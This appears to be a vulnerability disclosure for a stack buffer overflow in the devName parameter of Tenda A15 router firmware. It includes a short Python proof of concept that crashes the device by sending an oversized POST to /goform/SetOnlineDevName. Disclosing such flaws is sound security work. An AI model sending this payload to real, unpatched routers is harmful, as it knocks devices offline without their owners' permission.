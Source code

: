 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "devName" parameter at /goform/SetOnlineDevName.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the formSetDeviceName function, the devName parameter is obtained via websGetVar and passed to the first parameter of set_device_name

![1703731523270](image/SetOnlineDevName.devname.zh-cn/1703731523270.png)

In the set_device_name function, the dev_name variable is only verified for existence and is used in the sprintf function without any length checks, which could lead to an attacker using this buffer overflow to perform DOS attacks and RCE attacks.

![1703731669271](image/SetOnlineDevName.devname.zh-cn/1703731669271.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b',
    "devName": 'devname1'*0x1000
}
res = requests.post(url=url, data=payload)
print(res.content)

```

## Trigger details

See video content
[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1704443694/video_to_markdown/images/youtube--5fkQweoMJZE-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://youtu.be/5fkQweoMJZE "")

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
